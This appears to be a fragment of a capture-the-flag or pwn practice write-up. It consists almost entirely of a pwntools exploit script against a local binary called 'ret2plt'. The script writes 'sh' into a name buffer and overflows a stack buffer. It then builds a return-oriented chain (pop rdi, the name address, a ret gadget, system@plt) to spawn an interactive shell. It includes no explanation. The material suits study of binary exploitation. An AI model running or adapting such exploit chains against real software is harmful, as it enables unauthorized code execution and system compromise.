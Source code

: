 ![image-20220104224917123](/assets/img/2022/image-20220104224917123.png)

exp:

```python
from pwn import *


r = process('./ret2plt')
# context.log_level="debug"
raw_input(">>")

r.recvuntil('name?')
r.send('sh\x00')
r.recvuntil('something: ')

name_addr = 0x601070 # <name>
pop_rdi = 0x0000000000400733 # pop rdi ; ret
ret = 0x00000000004004fe # ret
system_plt = 0x0000000000400520  # <system@plt>

p = 'a'*0x18
p += p64(pop_rdi)
p += p64(name_addr)
p += p64(ret)
p += p64(system_plt)

r.send(p)

r.interactive()
```
